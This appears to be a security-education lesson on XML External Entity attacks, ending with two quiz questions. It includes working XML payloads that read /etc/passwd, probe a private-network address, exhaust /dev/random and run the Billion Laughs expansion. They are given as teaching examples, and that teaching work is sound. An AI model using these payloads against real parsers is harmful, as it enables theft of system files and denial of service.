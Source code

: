 ```yaml
---
author: lizTheDeveloper

levels:

  - beginner

  - basic

  - medium

aspects:

  - introduction

  - workout

type: normal

category: hack


standards:
  security.xxe.0: 10

links:
  - '[OWASP Top Ten](https://www.owasp.org/images/7/72/OWASP_Top_10-2017_%28en%29.pdf.pdf)'
  - '[Billion Laughs Attack](https://en.wikipedia.org/wiki/Billion_laughs_attack)'
  - '[Security Briefs - XML Denial of Service Attacks and Defenses](https://msdn.microsoft.com/en-us/magazine/ee335713.aspx)'
  - '[SAML Security XML External Entity Attack](https://secretsofappsecurity.blogspot.com/2017/01/saml-security-xml-external-entity-attack.html)'
  - '[Detecting and exploiting XXE in SAML Interfaces](https://web-in-security.blogspot.com/2014/11/detecting-and-exploiting-xxe-in-saml.html)'
  - '[CVE-611](https://cwe.mitre.org/data/definitions/611.html)'

---
```


# eXternal XML Entities

---
## Content
OWASP describes XXE as Xternal XML Entities, which is a vulnerability vector in XML documents that allows them to embed other documents, including local system files, in XML documents. If these processors run or execute these files with elevated permissions, attackers can inject malicious instructions in their XML files.

These examples from *OWASP's Top Ten* list show how the data can be configured to execute external scripts:

**Scenario #1**: The attacker attempts to extract data from the
server:
```
<?xml version="1.0"
 encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM
 "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```

**Scenario #2**: An attacker probes the server's private network by
changing the above ENTITY line to:
```
<!ENTITY xxe
SYSTEM "https://192.168.1.1/private" >]>
```
**Scenario #3**: An attacker attempts a denial-of-service attack by
including a potentially endless file:
```
<!ENTITY xxe
SYSTEM "file:///dev/random" >]>
```
 
Here's an example of this attack that was a widespread problem due to it's simplicity, called the **Billion Laughs Attack**:

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1
 "&lol;&lol;&lol;&lol;&lol;
  &lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2
 "&lol1;&lol1;&lol1;&lol1;&lol1;
 &lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3
 "&lol2;&lol2;&lol2;&lol2;&lol2;
 &lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4
 "&lol3;&lol3;&lol3;&lol3;&lol3;
 &lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5
 "&lol4;&lol4;&lol4;&lol4;&lol4;
 &lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6
 "&lol5;&lol5;&lol5;&lol5;&lol5;
 &lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7
 "&lol6;&lol6;&lol6;&lol6;&lol6;
 &lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8
 "&lol7;&lol7;&lol7;&lol7;&lol7;
 &lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9
 "&lol8;&lol8;&lol8;&lol8;&lol8;
 &lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```
From Wikipedia:

> When an XML parser loads this document, it sees that it includes one root element, "lolz", that contains the text "&lol9;". However, "&lol9;" is a defined entity that expands to a string containing ten "&lol8;" strings. Each "&lol8;" string is a defined entity that expands to ten "&lol7;" strings, and so on. After all the entity expansions have been processed, this small (< 1 KB) block of XML will actually contain 10^9 = a billion "lol"s, taking up almost 3 gigabytes of memory.

---
## Practice

An XXE attack affects what components of an application?
???

* XML Processors
* HTTP Endpoints
* Network Firewall
* HTML DOM


---
## Revision

An XXE attack comes from exploiting what?
???

* External Entities
* Unvalidated Input
* Untested Code
* Malformed Requests
